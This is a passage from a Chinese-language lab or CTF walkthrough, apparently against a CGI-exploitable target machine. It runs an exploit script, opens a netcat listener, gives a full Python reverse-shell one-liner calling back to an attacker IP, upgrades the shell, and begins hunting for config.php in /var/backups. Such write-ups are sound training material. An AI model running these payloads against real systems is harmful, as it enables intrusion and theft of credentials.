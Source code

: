 执行payload  

```
python2 exp.py payload=reverse rhost=192.168.7.153 lhost=192.168.7.3 lport=4444 pages=/cgi-bin/shell.sh
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

成功拿到webshell，先找一下敏感文件,这个shell用起来很卡，我们反弹一个shell

kali攻击机上监听3333端口

```
nc -lvvp 3333
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

靶机上执行反弹命令

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.7.3",3333));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

反弹成功，先切换交互shell

```
`python3 -c 'import pty;pty.spawn("/bin/bash")'``export TERM=xterm`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

```
`stty -a``stty raw -echo;fg``reset`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

```
stty rows 29 columns 90
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

切换完成，还是有点差，先找找敏感文件

/var/backups目录下发现config.php文件

```
`cd /var/backups``ls -al``cat config.php`
```
